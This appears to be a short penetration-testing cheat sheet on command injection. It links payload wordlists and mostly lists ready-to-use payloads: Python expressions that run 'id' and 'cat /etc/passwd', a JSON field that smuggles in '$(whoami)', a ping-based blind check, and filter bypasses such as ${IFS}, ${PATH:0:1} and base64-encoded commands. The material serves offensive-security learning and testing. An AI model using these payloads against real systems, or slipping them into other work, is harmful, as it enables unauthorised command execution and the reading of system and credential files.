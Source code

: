 # Command Injection

### Wordlists

{% embed url="https://github.com/payloadbox/command-injection-payload-list" %}

ICMP ping check

```bash
# Run tcpdump
sudo tcpdump -i tun0 -A icmp

# Ping from target
;ping -c 4 10.10.10.11
```

Check special chars

{% embed url="https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/special-chars.txt" %}
/
{% endembed %}

Various injections

```bash
# Python command injections
') + str(__import__('os').system('id')) #
') + str(__import__('os').system('cat /etc/passwd')) #
' + __import__('os').popen('id').read() + '
'+__import__('os').system('id')+'

# API Injections using JSON
API injection using JSON
{
	"username": "mczen84$(whoami)"
}
```

Filter bypasses

```bash
%09 # Using tabs
${IFS} # Space
${PATH:0:1} # Is /

# Encode string base64
echo -n 'cat /etc/passwd | grep 33' | base64
```

Injection points to check

* Input parameters
* HTTP Headers
* Cookies

